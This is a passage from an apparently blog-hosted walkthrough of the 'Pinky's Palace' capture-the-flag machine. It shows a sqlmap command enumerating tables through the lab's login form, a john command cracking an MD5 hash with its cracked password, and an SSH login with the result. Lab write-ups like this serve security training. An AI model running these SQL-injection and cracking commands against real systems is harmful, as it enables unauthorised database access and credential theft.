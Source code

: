 Moving on, we can enumerate the tables with `--tables` like so.

```
# sqlmap --level=3 --proxy=http://192.168.30.4:31337 --data="user=admin&pass=admin" --url=http://pinkys-palace:8080/littlesecrets-main/login.php --tables
```

![screenshot-10](/assets/images/posts/pinkys-palace-walkthrough/screenshot-10.png)

Let's dump the users table from `pinky_sec_db`.

![screenshot-11](/assets/images/posts/pinkys-palace-walkthrough/screenshot-11.png)

Let's crack those hashes.

```
# john --format=raw-md5 --show hashes.txt 
pinkymanage:3pinkysaf33pinkysaf3::::::

1 password hash cracked, 1 left
```

### Low Privilege Shell

I was able to login to `pinkymanage`'s account via SSH.

![screenshot-12](/assets/images/posts/pinkys-palace-walkthrough/screenshot-12.png)

### Ultra Secret Admin Files

During enumeration, I spotted the presence of `ultrasecretadminf1l35` in `littlesecrets-main`.

![screenshot-13](/assets/images/posts/pinkys-palace-walkthrough/screenshot-13.png)

